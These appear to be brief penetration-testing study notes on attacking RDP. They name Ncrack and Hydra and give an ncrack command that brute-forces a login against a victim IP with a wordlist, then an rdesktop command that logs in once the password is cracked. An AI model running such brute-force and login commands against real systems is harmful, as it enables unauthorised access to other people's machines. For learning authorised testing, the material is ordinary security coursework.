 **RDP** -> remote desktop protocol

We will use the tool **Ncrack**, thus we can also use **Hydra**

Differences between Hydra and Ncrack:

![[hydravsncrack.png]]

````
ncrack -vv --user username -P wordlist_to_use victim's_ip:port
````
- Once cracked, we will use the tool **RDesktop**:
````
rdesktop -u username -g 100% -PKD victim's_ip
````